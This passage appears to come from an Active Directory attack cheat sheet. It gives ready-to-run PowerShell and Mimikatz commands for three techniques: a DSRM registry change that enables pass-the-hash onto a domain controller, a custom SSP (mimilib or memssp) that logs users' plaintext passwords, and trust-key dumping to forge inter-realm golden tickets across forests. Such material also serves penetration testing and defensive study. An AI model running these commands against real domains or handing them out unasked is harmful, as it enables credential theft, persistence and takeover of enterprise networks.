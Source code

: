 ```
Set-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\" -Name "DsrmAdminLogonBehaviour" -Value 2 -Verbose
```
Then just PTH to get local admin access on DC!
### Custom SSP

*WUT IS DIS?: We can set our on SSP by dropping a custom dll, for example mimilib.dll from mimikatz, that will monitor and capture plaintext passwords from users that logged on!*

From powershell:
```
#Get current Security Package:
$packages = Get-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\OSConfig\" -Name 'Security Packages' | select -ExpandProperty  'Security Packages'

#Append mimilib:
$packages += "mimilib"

#Change the new packages name
Set-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\OSConfig\" -Name 'Security Packages' -Value $packages
Set-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\" -Name 'Security Packages' -Value $packages

#ALTERNATIVE:
Invoke-Mimikatz -Command '"misc::memssp"'
```
Now all logons on the DC are logged to -> C:\Windows\System32\kiwissp.log
  
## Cross Forest Attacks

### Trust Tickets
*WUT IS DIS ?: If we have Domain Admin rights on a Domain that has Bidirectional Trust relationship with an other forest we can get the Trust key and forge our own inter-realm TGT.*
  
:warning: The access we will have will be limited to what our DA account is configured to have on the other Forest!
  
Using Mimikatz:
```
#Dump the trust key
Invoke-Mimikatz -Command '"lsadump::trust /patch"'
Invoke-Mimikatz -Command '"lsadump::lsa /patch"'

#Forge an inter-realm TGT using the Golden Ticket attack
Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:<OurDomain> /sid:  
<OurDomainSID> /rc4:<TrustKey> /service:krbtgt /target:<TheTargetDomain> /ticket:
<PathToSaveTheGoldenTicket>"'
```
:exclamation: Tickets -> .kirbi format
  
Then Ask for a TGS to the external Forest for any service using the inter-realm TGT and access the resource!
  